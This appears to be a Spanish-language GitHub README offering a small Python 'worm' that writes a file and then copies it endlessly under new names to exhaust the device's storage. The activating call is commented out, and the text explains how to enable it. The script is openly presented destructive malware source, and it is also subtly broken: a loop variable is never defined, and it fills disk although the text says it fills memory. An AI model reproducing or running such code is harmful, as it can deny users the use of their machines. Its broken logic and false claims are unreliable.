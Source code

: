 # Worm
**Este programa crea un gusano que colapsa la memoria del dispositivo.** 

```python

# Importamos los modulos que usaremos

import os
import shutil

def cargar_archivo():
    gusano = open("truth.txt" , "w") # Crea un archivo txt y lo llena con 50 lineas

    for i in range(0, 50):
        gusano.write(f"Gusanito: {i} \n")
        
    gusano.close()

def worm():

    while True:
        shutil.copy2("truth.txt" , f"truth-gusano{contador}.py") 


cargar_archivo()


# Si cambias # por w en la siguiente linea, activas el gusano
#orm()

  
```

